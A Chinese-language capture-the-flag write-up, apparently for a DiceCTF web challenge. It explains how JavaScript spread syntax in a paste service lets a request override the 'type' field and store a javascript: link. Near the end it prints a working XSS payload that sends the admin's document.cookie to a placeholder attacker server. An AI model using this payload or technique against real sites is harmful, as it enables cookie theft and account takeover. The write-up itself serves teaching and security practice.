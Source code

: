 由页面 JS 通过 `document.querySelector('div').textContent = data;` 的形式输出的页面上。

由题目形式知道，这题必然是一个 XSS 的题目，虽然我们可以存储任意内容，但是使用`textContent`输出的内容会自动将标签符号进行转义，并且输出点还在一个 div 标签内，无法直接进行 XSS

并且纵观整个 /view 的页面内容，这几乎是我们可以进行 XSS 唯一的地方，仔细审计我们找到通过`window.location=javascript:alert(1)`的形式执行 javascript 代码，但是使用该功能的前提是需要短链接的形式，并且短链接开头只能由 http|https 开头，并不能使用 javascript ，并且是使用了`RegExp('^https?://')`的正则形式，我们并不能直接绕过这个正则，所以我们需要找个什么办法绕过这个限制。

在数据库操作我们注意到两个操作方式都使用的是同一个函数`addData`，该函数是通过`type`参数来判断插入的类型内容，并且我们注意到两个功能传入该函数都使用的是 `...req.body`

三个点这个操作符是一个展开语法，叫做 Spread syntax ，可以在函数调用/数组构造时, 将数组表达式或者 string 在语法层面展开；还可以在构造字面量对象时, 将对象表达式按 key-value 的方式展开。例如：

```
function sum(x, y, z) `{`
  return x + y + z;
`}`

const numbers = [1, 2, 3];

console.log(sum(...numbers));
// expected output: 6

console.log(sum.apply(null, numbers));
// expected output: 6
```

对于`...req.body`，我们不难想到如果我们使用相同的 key ，会怎么样呢？例如

```
function addData(`{` uid, data, type `}`) `{`
    console.log(uid, data, type);
`}`
var uid = "uid";
var a = `{` data: "wuhu", type: "link" `}`;
addData(`{` type: "paste", ...a, uid `}`);
// output: uid wuhu link
```

可以看到我们使用一个自己的 type 字段覆盖了之前的 type 字段，这样我们就可以成功控制插入的类型。所以我们大概可以有个思路：我们通过构造一个有 `type: "link"` 的特殊 json ，利用`createPaste`函数帮我们插入一个 link 类型的数据，这样得到的短链接内容就是一个我们可以自己控制内容的 link 类型的了。

所以我们可以在 `createPaste` 的 API 再传入一个 `type: 'link'` ，这样就可以覆盖掉了前面的 `type: 'paste'` 就可以得到一个触发 XSS 的短链接了

```
`{`"data":"javascript:window.location='https://your_vps/?a='+encodeURIComponent(document.cookie);","type":"link"`}`
```

这样再将得到的链接地址，使用 /view API 发给 admin 看就可以拿到 flag 了，例如我们在给 createPaste API 发送以上内容后，得到的是

```
`{`"statusCode":200,"data":"otEJvitt"`}`
```

这时再将 [http://web-utils.dicec.tf/view/otEJvitt](http://web-utils.dicec.tf/view/otEJvitt) 发给 admin 就可以了
